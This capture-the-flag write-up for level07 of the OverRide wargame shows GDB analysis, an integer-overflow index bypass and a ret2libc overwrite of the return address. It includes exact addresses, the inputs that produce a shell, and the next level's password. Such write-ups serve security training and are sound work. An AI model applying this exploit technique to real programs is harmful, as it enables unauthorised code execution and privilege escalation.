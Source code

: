 # Level07 Exploit

## Steps

### 1. Program Behavior

Running the program shows:

```bash
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: 
```

### 2. Vulnerability Discovery

Using GDB, we identify a potential buffer overflow:

```gdb
(gdb) start
Temporary breakpoint 1 at 0x8048729
Starting program: /home/users/level07/level07 
Temporary breakpoint 1, 0x08048729 in main ()

(gdb) info frame
Stack level 0, frame at 0xffffd720:
 eip = 0x8048729 in main; saved eip 0xf7e45513
 Arglist at 0xffffd718, args: 
 Locals at 0xffffd718, Previous frame's sp is 0xffffd720
 Saved registers:
  ebp at 0xffffd718, eip at 0xffffd71c

(gdb) b read_number 
Breakpoint 2 at 0x80486dd
(gdb) continue
Continuing.
...
Input command: read
Breakpoint 2, 0x080486dd in read_number ()

(gdb) info register
eax            0xffffd554	-10924
...
esp            0xffffd500	0xffffd500
ebp            0xffffd528	0xffffd528
...

(gdb) print 0xffffd71c - 0xffffd554
$1 = 456
```

We find that our array is 456 bytes away from the EIP. Dividing by 4 (as it's a 32-bit system), we get 114, which is the index we need to target.

### 3. Exploit Development

To bypass security checks, we use unsigned integer overflow:

- Overflow calculation: 4294967296 / 4 = 1073741824
- Target index: 1073741824 + 114 = 1073741938

Next, we find the necessary addresses:

```gdb
(gdb) info function system
All functions matching regular expression "system":
Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system

(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
1 pattern found.
```

Converting to decimal:
- system(): 0xf7e6aed0 = 4159090384
- "/bin/sh": 0xf7f897ec = 4160264172

## Exploit

### 4. Executing the Exploit

```bash
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass   
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
$
```

### 5. Accessing the Next Level

```bash
level07@OverRide:~$ su level08
Password: 7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
level08@OverRide:~$ 
```

## Explanation

This exploit works by:

1. Using integer overflow to bypass index checks and write to the EIP location (index 114).
2. Writing the address of system() to the EIP location.
3. Writing the address of "/bin/sh" to the next available slot (index 116) to serve as the argument for system().
4. When the program exits, it calls system("/bin/sh"), giving us a shell with elevated privileges.

The vulnerability lies in the program's failure to properly validate array indices, allowing us to write outside the intended array boundaries and overwrite critical memory locations.